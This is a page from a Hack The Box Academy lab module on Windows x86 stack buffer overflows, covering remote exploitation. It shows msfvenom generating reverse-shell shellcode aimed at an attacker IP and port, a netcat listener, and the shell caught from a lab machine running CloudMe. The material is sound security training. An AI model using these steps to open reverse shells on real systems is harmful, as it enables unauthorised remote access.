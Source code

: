 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/89/section/952
// Platform Version: V1
// Module ID: 89
// Module Name: Stack-Based Buffer Overflows on Windows x86
// Module Difficulty: Medium
// Section ID: 952
// Section Title: Remote Exploitation
// Page Title: Hack The Box - Academy
// Page Number: 10
-->

# Remote Exploitation

**Module Name:** Stack-Based Buffer Overflows on Windows x86 **Page Number:** 10

#### 

#### STACK-BASED BUFFER OVERFLOWS ON WINDOWS X86

# Remote Exploitation

## Reverse Shell Shellcode

``` shell-session
[!bash!]$ ip -4 a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    ...SNIP...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    inet 10.10.15.10/23 brd 10.10.15.255 scope global tun0
```

``` shell-session
[!bash!]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python'

...SNIP...
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
...SNIP...
```

## Remote Exploitation

``` shell-session
[!bash!]$ nc -lvnp 1234

listening on [any] 1234 ...
```

``` shell-session
[!bash!]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.15.10] from (UNKNOWN) [10.10.10.10] 64539
Microsoft Windows [Version 10.0.19042.928]
(c) Microsoft Corporation. All rights reserved.

C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe>whoami
whoami
htb-student
```

# 

# 

#### Questions

####